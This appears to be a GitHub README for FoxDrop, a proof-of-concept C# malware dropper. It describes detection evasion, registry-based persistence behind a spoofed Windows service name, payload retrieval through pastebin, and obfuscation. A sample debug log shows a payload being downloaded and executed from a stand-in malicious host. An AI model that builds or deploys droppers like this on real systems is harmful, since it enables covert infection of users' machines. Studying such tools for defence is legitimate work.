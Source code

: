 <div align="center"><img src="https://cdn.lypd0.com/FoxDrop/logo.png"></div>
<h1 align="center">FoxDrop - A Malware Dropper Proof-of-Concept</h1>
<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>
<h3 align="center">Usage on unauthorized systems is strictly forbidden</h3>

## Overview
FoxDrop is an educational proof-of-concept (PoC) malware dropper designed to illustrate the functionality of a dropper and its potential impact on a system. This project aims to provide insights into malware behavior, showcasing how droppers can silently infiltrate systems, execute payloads, and maintain persistence.

## Features
FoxDrop offers a range of features, including but not limited to:

- **Stealthy Execution**: FoxDrop operates discreetly, avoiding detection by traditional security measures.
- **Persistence**: It ensures its presence on the system by adding a run policy for execution on system reboot.
- **Dynamic Payload Retrieval**: FoxDrop fetches payloads from specified URLs, allowing for flexible and adaptable malware behavior.
- **Registry Manipulation**: To evade detection, FoxDrop creates decoy registry keys, camouflaging its activities.
- **Payload Integrity Checks**: FoxDrop hashes downloaded payloads and compares them to stored hashes to prevent re-execution.
- **Obfuscation Techniques**: FoxDrop supports Base64 decoding, adding an additional layer of obfuscation to its operation.

## Usage
Using FoxDrop for educational purposes involves several steps:
1. **Compilation**: Compile the provided source code using a C# compiler to generate the executable binary.
2. **Execution**: Execute the compiled binary on a target system to observe its behavior.
3. **Customization**: Customize the payload download URLs and other variables in the source code for experimentation.

## Disclaimer
FoxDrop is intended for educational purposes only. The author does not endorse or encourage any illegal or malicious use of this software. Any misuse or unethical use of FoxDrop is strictly prohibited.

## Author
FoxDrop is developed by Luigi Fiore, also known as lypd0.

## License
This project is licensed under the MIT License, allowing for exploration, modification, and distribution. Refer to the [LICENSE](LICENSE) file for detailed licensing terms.

## Troubleshooting and Debugging
FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior. These features provide insights into FoxDrop's configuration and highlight any potential issues that may affect its operation.

FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior:
```cpp
[╒═■] Build Information: 
[├] Assembly Info: FoxDrop, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
[├] Execution Path: C:\Path\To\FoxDrop.exe
[└] Polymorphic Seed: 8bc8f9bfb6b6a42640a37dcf9aa9a22b

[*] Performing Checks... 
· Polymorphism Disabled, Checking static name ... OK.
· Checking Delay ... OK.

Press ENTER to exit.
```

## Debug Log
During execution, FoxDrop logs debug information to provide visibility into its operations. This debug log offers detailed information about FoxDrop's actions, facilitating analysis and comprehension of its behavior.

```cpp
[*] Waiting 300000 ms ...
[*] First execution on system: TRUE.
[*] Folder "92cbea44" created in the Registry.
[*] Created BEA key.
[*] Created "ShortcutName" key with value "Windows Audio Device Graph Isolation".
[*] Created "Path" key with value "C:\Windows\System32\audiodg.exe".
[*] Reading content from "https://pastebin.com/raw/b4SYNyAT".
[*] Loaded following data: "https://malicious.website/malware.exe;C:\Users\User\Downloads\malware.exe".
[*] Downloading & executing payload from "https://malicious.website/malware.exe"
[*] Downloaded payload to C:\Users\User\Downloads\malware.exe
[*] Payload started from C:\Users\User\Downloads\malware.exe
[*] Payload hash (md5) added to list to prevent re-execution.
```

## Conclusion
FoxDrop serves as a valuable educational tool for understanding malware droppers and their implications. By exploring its features and behavior, users can gain insights into malware tactics and enhance their cybersecurity knowledge and defenses.
